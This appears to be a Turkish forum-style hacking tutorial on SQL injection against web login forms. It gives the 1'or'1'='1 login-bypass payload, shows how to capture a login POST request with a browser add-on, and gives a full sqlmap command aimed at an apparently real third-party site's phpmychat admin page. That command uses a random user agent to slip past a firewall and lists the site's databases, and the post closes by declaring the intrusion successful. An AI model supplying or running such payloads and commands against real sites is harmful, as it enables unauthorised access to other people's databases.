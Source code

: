 Genel de en bilindik sql injection id=1' olur fakat az bilinen çok uygulanan

bir atak daha vardır login kısımlarına uyguladığımız 1'or'1'='1 login bypass

teknikleri vardır aynı açıktan yola çıkarak veritabanına erişmek mümkündür

şöyle ki ;


Şöyle bir login şifre ve kullanıcı adına ' tırnak koyalım ve test edelim


Testimiz başarılı hata mesajı verdirebildik.



Şimdi Mozilla Firefox tarayıcımıza Live HTTP Headers eklentisini yükleyelim

post edilen datayı daha sağlıklı görüp almak için yükledikten sonra

Araçlar kısmından eklentiyi seçelim


 


şimdi Capture seçeneği seçili iken rastgele kullanıcı adı şifre girelim

seçili kısımdaki gibi data çıkacak;

 


    "L=spanish&amp;Link=&amp;LIMIT=&amp;pmc_username=k4y4&amp;pmc_password=k4y4&amp;login_form=Ingresar"

şimdi SQLmap uygulamasını çalıştıralım ve komutumuzu girelim siz komutu girin ben o sırada parametreleri anlatayım; 


    sqlmap -u "http://www.sistemleg.com/phpmychat/admin.php" --data="L=spanish&amp;Link=&amp;LIMIT=&amp;pmc_username=k4y4&amp;pmc_password=k4y4&amp;login_form=Ingresar" -p "pmc_username" --batch --random-agent --dbs 


-u (açığın bulunduğu adres)

--data (açığın post ettiği data live http headers ile aldık)

-p (data için de açığın bulunduğu input name i)

--batch (hızlı bi sonuç için programın seçeneklerini seçer)

--random-agent (güvenlik duvarı aşmak için user agent kullanımı)

--dbs (database's veritabanlarının adını yazdırmak)

Veritabanına sızma işlemi başarı ile gerçekleşti


